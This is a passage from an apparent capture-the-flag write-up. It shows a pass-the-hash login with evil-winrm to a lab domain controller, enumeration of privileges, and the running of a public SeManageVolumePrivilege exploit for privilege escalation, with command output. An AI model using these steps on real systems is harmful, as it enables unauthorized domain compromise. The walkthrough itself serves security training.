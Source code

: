 ```powershell
└─$ evil-winrm -i 10.10.11.71 -u 'ryan.k' -H b1bc3d70e70f4f36b15....5ae1a2ae6

Evil-WinRM shell v3.7

*Evil-WinRM* PS C:\Users\Ryan.K\Documents> whoami
certificate\ryan.k
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> hostname
DC01
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                      State
============================= ================================ =======
SeMachineAccountPrivilege     Add workstations to domain       Enabled
SeChangeNotifyPrivilege       Bypass traverse checking         Enabled
SeManageVolumePrivilege       Perform volume maintenance tasks Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set   Enabled
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> 
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> cd ../ ; tree /f /a
Folder PATH listing
Volume serial number is 7E12-22F9
C:.
+---Desktop
|       SeManageVolumeExploit.exe
|
+---Documents
+---Downloads
+---Favorites
+---Links
+---Music
+---Pictures
+---Saved Games
\---Videos
```
{: .nolineno }

### Got <mark style="background: #D2B3FFA6;">SeManageVolumePrivilege</mark> Privileges

As I got the privilege <mark style="background: #D2B3FFA6;">SeManageVolumePrivilege</mark> Enabled that means I can edit the Volume related files or use commands.

For Abusing that I will be using this exploit [<mark style="background: #D2B3FFA6;">SeManageVolumePrivilege</mark> ](https://github.com/CsEnox/SeManageVolumeExploit).

Now I will be transferring it to victim machine and ran it.

```powershell
*Evil-WinRM* PS C:\Users\Ryan.K\Desktop> .\SeManageVolumeExploit.exe
Entries changed: 870

DONE

*Evil-WinRM* PS C:\Users\Ryan.K\Desktop>
```
{: .nolineno }
